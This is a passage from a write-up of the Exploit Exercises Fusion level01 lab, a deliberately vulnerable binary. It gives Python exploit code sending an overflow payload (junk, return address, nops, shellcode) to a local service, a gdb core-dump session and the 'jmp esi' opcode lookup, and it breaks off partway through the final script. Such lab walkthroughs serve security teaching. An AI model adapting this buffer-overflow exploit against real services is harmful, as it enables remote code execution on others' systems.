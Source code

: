 ```

        s.send("GET " + junk + ret + esi + " HTTP/1.1" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20001,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```

Once it's executed, I load it into gdb again to poke around. 

```
fusion@fusion:~$ ./level01.py
[*] Connecting to 127.0.0.1 on port 20001
fusion@fusion:~$ ls /tmp
core-level01-5-20001-20001-2353-1341318366
fusion@fusion:~$ sudo gdb -q --core=/tmp/core-level01-5-20001-20001-2353-1341318366
[New LWP 2353]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbfa65d91 in ?? ()
(gdb) x/16x $esp-16
0xbfa65d80:     0x41414141      0x41414141      0x41414141      0x08049f4f
0xbfa65d90:     0xbfa600cc      0x00000020      0x00000004      0x00000000
0xbfa65da0:     0x001761e4      0xbfa65e30      0x20544547      0x41414141
0xbfa65db0:     0x41414141      0x41414141      0x41414141      0x41414141
```

Well it looks like it hit our debug point.  Let's try replacing the "\xCC" with the opcodes for "jmp esi".  But first we have to find what that opcode actually is.  I found a decent enough method for now on [stackoverflow](http://stackoverflow.com/questions/3206535/dos-debug-like-program-for-32-bit-x86-assembly), which I modified a little for my needs. I'd like to find something better for the future though. 

```
fusion@fusion:~$ echo -e "BITS 32\njmp esi" > tmp.S && nasm tmp.S -o tmp.o && ndisasm -b 32 tmp.o && rm -f tmp.o tmp.S
00000000  FFE6              jmp esi
```

Since this is a 2 byte instruction, we will need to pad the end of it to 4 bytes, to align it properly.  I simply used "\x90" nops to do so, giving us the value "0x9090E6FF". 

That leaves us with the final code: 

```
# Fusion Level 01
# http://exploit-exercises.com/fusion/level01
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0x08049f4f)
```